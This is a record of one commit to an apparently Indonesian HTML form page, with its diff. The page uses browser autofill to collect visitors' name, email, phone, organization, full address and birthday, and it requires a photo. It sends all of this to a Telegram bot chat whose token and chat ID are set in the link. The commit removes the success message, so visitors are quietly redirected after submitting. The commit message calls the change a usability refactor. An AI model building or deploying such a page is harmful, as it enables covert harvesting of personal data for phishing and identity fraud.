

Before and after one commit to Pl21jal/Autofillgem, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1058 px of the page, without its empty margins (319-959 px from the left). Before the commit the page ends 995 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor form structure and update styles
Updated the form fields and styles for better usability and clarity. Changed titles and labels for improved context.

```diff
--- a/index.html
+++ b/index.html
@@ -3,126 +3,142 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Autofill Sender</title>
+    <title>Auto Sender</title>
     <style>
-        body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; background: #f0f2f5; padding: 20px; }
-        .container { max-width: 500px; margin: 0 auto; background: white; padding: 20px; border-radius: 12px; box-shadow: 0 4px 10px rgba(0,0,0,0.1); }
+        body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; background: #f4f6f8; padding: 20px; }
+        .container { max-width: 500px; margin: 0 auto; background: white; padding: 25px; border-radius: 15px; box-shadow: 0 4px 15px rgba(0,0,0,0.1); }
         h2 { text-align: center; margin-bottom: 20px; color: #333; }
 
         .form-group { margin-bottom: 15px; }
-        label { display: block; margin-bottom: 5px; font-weight: 600; font-size: 0.9em; color: #555; }
-        input, select, textarea { width: 100%; padding: 12px; border: 1px solid #ddd; border-radius: 8px; box-sizing: border-box; font-size: 16px; transition: 0.3s; }
-        input:focus { border-color: #0088cc; outline: none; }
+        label { display: block; margin-bottom: 6px; font-weight: 600; font-size: 0.9em; color: #444; }
 
-        /* Highlight autofill agar terlihat jelas */
-        input:-webkit-autofill { -webkit-box-shadow: 0 0 0 30px white inset !important; }
+        /* Input styling */
+        input, select { width: 100%; padding: 12px; border: 1px solid #ccc; border-radius: 8px; box-sizing: border-box; font-size: 16px; background-color: #fff; }
+        input:focus { border-color: #0088cc; outline: none; box-shadow: 0 0 0 3px rgba(0,136,204,0.2); }
 
-        .btn-submit { background-color: #0088cc; color: white; border: none; padding: 15px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: bold; cursor: pointer; margin-top: 10px; }
+        /* Agar warna kuning autofill browser tidak merusak desain */
+        input:-webkit-autofill {
+            -webkit-box-shadow: 0 0 0 30px white inset !important;
+        }
+
+        .btn-submit { background-color: #0088cc; color: white; border: none; padding: 16px; width: 100%; border-radius: 10px; font-size: 16px; font-weight: bold; cursor: pointer; margin-top: 15px; transition: background 0.3s; }
         .btn-submit:hover { background-color: #006699; }
-        .btn-submit:disabled { background-color: #ccc; cursor: not-allowed; }
 
-        .hidden-info { font-size: 0.8em; color: red; text-align: center; margin-bottom: 10px; display: none; }
+        .hidden-info { color: red; text-align: center; font-size: 0.85em; display: none; margin-bottom: 10px; background: #ffe6e6; padding: 10px; border-radius: 8px;}
     </style>
 </head>
 <body>
 
 <div class="container">
-    <h2>Form Data & Foto</h2>
-    <p id="error-msg" class="hidden-info">Parameter URL (token/chatid) tidak ditemukan!</p>
+    <h2>Data Diri Otomatis</h2>
+    <div id="error-msg" class="hidden-info">URL tidak lengkap (token/chatid missing)</div>
 
     <form id="telegramForm">
+
         <div class="form-group">
             <label>Nama Lengkap</label>
-            <input type="text" id="nama" name="Nama" autocomplete="name" required placeholder="Nama Lengkap">
-        </div>
-
-        <div class="form-group">
-            <label>Nomor HP / WhatsApp</label>
-            <input type="tel" id="hp" name="No HP" autocomplete="tel" required placeholder="08xxxxxxxx">
+            <input type="text" name="name" id="name" autocomplete="name" placeholder="Nama Lengkap" required>
         </div>
 
         <div class="form-group">
             <label>Email</label>
-            <input type="email" id="email" name="Email" autocomplete="email" placeholder="email@contoh.com">
+            <input type="email" name="email" id="email" autocomplete="email" placeholder="email@address.com">
+        </div>
+
+        <div class="form-group">
+            <label>No HP / WhatsApp</label>
+            <input type="tel" name="phone" id="phone" autocomplete="tel" placeholder="+62...">
+        </div>
+
+        <div class="form-group">
+            <label>Organisasi / Kantor</label>
+            <input type="text" name="organization" id="org" autocomplete="organization">
+        </div>
+
+        <hr style="border: 0; border-top: 1px solid #eee; margin: 20px 0;">
+        <label style="color: #888; font-size: 0.8em; margin-bottom: 10px;">ALAMAT (Klik di sini untuk trigger autofill lengkap)</label>
+
+        <div class="form-group">
+            <label>Alamat Jalan</label>
+            <input type="text" name="address" id="address" autocomplete="street-address" placeholder="Jalan, No Rumah">
+        </div>
+
+        <div class="form-group">
+            <label>Kota / Kab</label>
+            <input type="text" name="city" id="city" autocomplete="address-level2">
+        </div>
+
+        <div class="form-group">
+            <label>Kode Pos</label>
+            <input type="text" name="zip" id="zip" autocomplete="postal-code">
         </div>
 
         <div class="form-group">
             <label>Tanggal Lahir</label>
-            <input type="date" id="dob" name="Tgl Lahir" autocomplete="bday">
+            <input type="text" name="birthday" id="dob" autocomplete="bday" placeholder="YYYY-MM-DD">
         </div>
 
-        <div class="form-group">
-            <label>Alamat Jalan</label>
-            <input type="text" id="alamat" name="Alamat" autocomplete="street-address" placeholder="Nama Jalan & No Rumah">
-        </div>
+        <hr style="border: 0; border-top: 1px solid #eee; margin: 20px 0;">
 
         <div class="form-group">
-            <label>Kota / Kabupaten</label>
-            <input type="text" id="kota" name="Kota" autocomplete="address-level2">
-        </div>
-
-        <div class="form-group">
-            <label>Kode Pos</label>
-            <input type="text" id="kodepos" name="Kode Pos" autocomplete="postal-code">
-        </div>
-
-        <div class="form-group">
-            <label>Perusahaan / Organisasi</label>
-            <input type="text" id="org" name="Organisasi" autocomplete="organization">
-        </div>
-
-        <hr>
-
-        <div class="form-group">
-            <label>Upload Foto (Wajib)</label>
+            <label>📸 Foto Bukti (Wajib)</label>
             <input type="file" id="foto" accept="image/*" required>
         </div>
 
-        <button type="submit" class="btn-submit" id="btnSend">Kirim Data</button>
+        <button type="submit" class="btn-submit" id="btnSend">Kirim Telegram</button>
     </form>
 </div>
 
 <script>
-    // 1. Ambil Parameter dari URL (Shortcuts)
     const urlParams = new URLSearchParams(window.location.search);
-
-    // Format URL harus: website.com/?token=TOKEN_BOT&chatid=CHAT_ID&redirect=URL_TUJUAN
     const botToken = urlParams.get('token');
     const chatId = urlParams.get('chatid');
-    const redirectUrl = urlParams.get('redirect') || 'https://google.com'; // Default ke Google jika kosong
+    const redirectUrl = urlParams.get('redirect') || 'https://google.com';
 
-    // Cek kelengkapan parameter
     if (!botToken || !chatId) {
         document.getElementById('error-msg').style.display = 'block';
-        document.getElementById('error-msg').innerText = "ERROR: Token Bot atau Chat ID belum diatur di URL!";
         document.getElementById('btnSend').disabled = true;
+        document.getElementById('btnSend').innerText = "Link Error";
+        document.getElementById('btnSend').style.backgroundColor = "#ccc";
     }
 
-    // 2. Logika Pengiriman
     document.getElementById('telegramForm').addEventListener('submit', async function(e) {
         e.preventDefault();
 
         const btn = document.getElementById('btnSend');
-        btn.innerText = "Mengirim...";
+        const originalText = btn.innerText;
+        btn.innerText = "Sedang Mengirim...";
         btn.disabled = true;
 
-        // Ambil data teks
-        const formData = new FormData();
         const inputs = document.querySelectorAll('#telegramForm input:not([type="file"])');
-        let captionText = "📝 *DATA BARU MASUK*\n------------------\n";
+        let captionText = "📝 *DATA USER MASUK*\n------------------\n";
+
+        // Mapping label manual agar rapi di Telegram
+        const labels = {
+            'name': 'Nama', 'email': 'Email', 'phone': 'No HP',
+            'organization': 'Organisasi', 'address': 'Alamat',
+            'city': 'Kota', 'zip': 'Kode Pos', 'birthday': 'Tgl Lahir'
+        };
 
         inputs.forEach(input => {
             if(input.value) {
-                captionText += `*${input.name}:* ${input.value}\n`;
+                let label = labels[input.name] || input.name;
+                captionText += `*${label}:* ${input.value}\n`;
             }
         });
 
-        // Ambil file foto
         const fileInput = document.getElementById('foto');
-        const photo = fileInput.files[0];
 
+        if(fileInput.files.length === 0) {
+            alert("Harap pilih foto terlebih dahulu!");
+            btn.innerText = originalText;
+            btn.disabled = false;
+            return;
+        }
+
+        const formData = new FormData();
         formData.append("chat_id", chatId);
-        formData.append("photo", photo);
+        formData.append("photo", fileInput.files[0]);
         formData.append("caption", captionText);
         formData.append("parse_mode", "Markdown");
 
@@ -135,18 +151,16 @@
             const result = await response.json();
 
             if (result.ok) {
-                alert("Berhasil terkirim!");
-                // 3. Redirect Otomatis
                 window.location.href = redirectUrl;
             } else {
-                alert("Gagal mengirim ke Telegram: " + result.description);
-                btn.innerText = "Kirim Data";
+                alert("Gagal: " + result.description);
+                btn.innerText = originalText;
                 btn.disabled = false;
             }
         } catch (error) {
             console.error(error);
-            alert("Terjadi kesalahan koneksi.");
-            btn.innerText = "Kirim Data";
+            alert("Error koneksi internet.");
+            btn.innerText = originalText;
             btn.disabled = false;
         }
     });
```
